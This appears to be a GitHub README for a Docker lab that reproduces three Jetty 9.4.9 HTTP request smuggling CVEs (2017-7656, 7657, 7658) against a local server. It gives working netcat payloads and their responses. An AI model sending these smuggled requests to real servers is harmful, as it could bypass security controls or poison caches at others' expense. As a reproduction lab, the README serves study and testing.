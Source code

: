 #	Jetty - Http Smuggling

##	Composition

jetty 9.4.9



##	Usage

Only for POC.

###	build

```bash
docker-compose up
```

The jetty server will on the port 9014.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 200 OK
```

1 HTTP code 200 means all right! 

Enjoy!



###	reproduce

####	CVE-2017-7656 HTTP/0.9

```bash
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 9014
```

You will get an http/0.9 response. No headers is right. HTTP/0.9 responses don't have headers.

```html
<html>
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
<td>
<img src="images/tomcat.gif">
</td>
<td>
<h1>Sample "Hello, World" Application</h1>
<p>This is the home page for a sample application used to illustrate the
source directory organization of a web application utilizing the principles
outlined in the Application Developer's Guide.
</td>
</tr>
</table>

<p>To prove that they work, you can execute either of the following links:
<ul>
<li>To a <a href="hello.jsp">JSP page</a>.
<li>To a <a href="hello">servlet</a>.
</ul>

</body>
</html>
```



####	CVE-2017-7657 Chunk size attribute truncation

```bash
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes. 

Try this:

```bash
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes, too.

Jetty will cut the long size to short size. For example, the first time we tried, size is 100000000. It will be treated as 0. The second time we tried, size is 1ff00000008. It will be treated as 8.

So both of these, we will get two responses.



####	CVE-2017-7658 Double Content-Length

```bash
printf 'GET /?test=4966 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 45\r\n'\
'Content-Length: 0\r\n'\
'\r\n'\
'GET /?test=4967 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get

```
HTTP/1.1 400 Duplicate Content-Length
Content-Type: text/html;charset=iso-8859-1
Content-Length: 67
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: Duplicate Content-Length</pre>
```

But when we try this:

```bash
printf 'GET /?test=4968 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4969 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get a 200 code. So let's smuggle.

```bash
printf 'GET /?test=4970 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4971 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'GET /?test=4972 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get two 200 codes.



#	Reference

https://regilero.github.io/english/security/2019/04/24/security_jetty_http_smuggling/#toc3

https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/
